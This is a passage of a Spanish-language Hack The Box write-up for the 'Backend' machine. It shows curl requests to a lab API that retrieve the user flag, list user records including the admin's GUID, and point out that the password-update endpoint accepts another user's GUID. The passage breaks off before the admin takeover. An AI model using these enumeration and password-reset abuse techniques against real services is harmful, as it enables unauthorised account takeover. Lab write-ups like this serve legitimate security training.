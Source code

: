 ![](/assets/images/htb-backend/backend5.PNG)

Por ejemplo sale este nuevo /api/v1/user/SecretFlagEndpoint (se puede ejecutar tanto desde la web como desde curl)

```console
└─$ curl -X 'PUT' \
  'http://10.10.11.161/api/v1/user/SecretFlagEndpoint' \
  -H 'accept: application/json' \
  -H 'Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6Ik...
{"user.txt":"e66d6585b7ae1f526bf27e341f0d880c"}  
```
Tambien hay dos nuevos endpoints del admin, uno para leer archivos de la máquina y otro para ejecutar comandos en ella, pero no podemos por no ser admin.
El endpoint /docs (o sea donde estamos) tira de openapi.json, de ahí saca la información la web actual (y nos muestra como funcionan todos los endpoints)

----------------------
# Part 3: Accediendo al usuario admin

Uno de los endpoints más criticos es es de /api/v1/user/updatepass. Nos pide guid y password, el guid es el identificado de usuario y la contraseña, la nueva que
cambiarle.

Se supone que está para ponerle tu guid, pero se le podría poner otro.
```console
└─$ curl -s http://10.10.11.161/api/v1/user/2{"guid":"43c99c90-d0e4-4d5f-b383-cf2e82da6224","email":"cucuxii@htb.local","date":null,"time_created":1667401713796,"is_superuser":false,"id":2}
└─$ curl -s http://10.10.11.161/api/v1/user/1
{"guid":"36c2e94a-4271-4259-93bf-c96ad5948284","email":"admin@htb.local","date":null,"time_created":1649533388111,"is_superuser":true,"id":1} 
```